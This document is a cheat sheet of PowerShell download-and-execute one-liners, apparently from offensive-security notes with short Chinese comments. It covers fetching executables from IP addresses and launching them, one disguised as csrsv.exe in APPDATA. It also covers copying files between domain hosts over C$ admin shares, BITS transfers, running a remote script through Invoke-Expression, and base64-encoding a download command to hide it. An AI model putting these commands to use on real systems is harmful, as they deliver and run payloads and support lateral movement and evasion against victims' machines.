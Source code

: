 #### 1
	注意：内核5.2以下版本可能无效
	>powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.1.1/Client.exe','C:\1.exe'); start-process 'c:\1.exe'
	>powershell 
	>(New-Object System.Net.WebClient).DownloadFile('http://192.168.0.108/1.exe',"$env:APPDATA\csrsv.exe");Start-Process("$env:APPDATA\csrsv.exe")
#### 2
	PS>Copy-Item '\\sub2k8.zone.com\c$\windows\1.txt' -Destination '\\dc.zone.com\c$\1.txt'
#### 3
	>powershell ($dpl=$env:temp+'f.exe');(New-Object System.Net.WebClient).DownloadFile('http://192.168.0.108/ok.txt',$dpl);
#### 4
	高版本
	PS>iwr -Uri http://192.168.0.106:1222/111.txt -OutFile 123.txt –UseBasicParsing
#### 5
	C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Templates
	>Import-Module BitsTransfer
	>$path = [environment]::getfolderpath("temp")
	>Start-BitsTransfer -Source "http://192.168.0.108/ok.txt" -Destination "$path\ok.txt"
	>Invoke-Item  "$path\ok.txt"
#### 6
  	Invoke-Expression (New-Object Net.WebClient).DownloadString("http://xxx.xx.xx.xx/test.ps1")
#### 7 
	echo (new-object System.Net.WebClient).DownloadFile('http://192.168.1.3/tomcat.exe','C:/Users/test/cc.exe')| powershell -
#### 8
	$Text = "(new-object System.Net.WebClient).DownloadFile('http://xxxxxxxxxx/evil.txt','evil.txt')"
	$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
	$EncodedText =[Convert]::ToBase64String($Bytes)
	$EncodedText
	解码
	$EncodedText = "dwByAGkAxxxxxxxxxxxxxxxxxxxAG0AbgB0AG4AJwA="
	$DecodedText = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($EncodedText))
	$DecodedText
